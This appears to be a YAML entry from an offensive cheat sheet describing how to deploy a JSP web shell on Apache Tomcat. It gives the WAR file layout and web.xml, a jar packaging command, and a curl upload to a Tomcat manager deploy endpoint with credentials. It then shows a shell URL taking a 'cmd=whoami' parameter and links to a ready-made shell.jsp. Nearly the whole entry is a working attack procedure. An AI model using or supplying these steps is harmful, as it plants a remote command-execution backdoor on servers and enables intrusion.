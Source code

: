 ```yaml
---
functions:
  shell:
    - description: war web shell (in jsp format)
      code: |
        (1) File Structure:
        ├── shell.jsp
		└── WEB-INF
		    └── web.xml
		web.xml:
		<?xml version="1.0"?>
		<!DOCTYPE web-app PUBLIC
		"-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
		"http://java.sun.com/dtd/web-app_2_3.dtd">
		<web-app>
		  <welcome-file-list>
		    <welcome-file>shell.jsp</welcome-file>
		  </welcome-file-list>
		</web-app>

        (2) jar -cf shell.war *
        (3) curl --upload-file shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/{context}&update=true" -u {username}
        https://{address}/shell.jsp?cmd=whoami
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
---
```

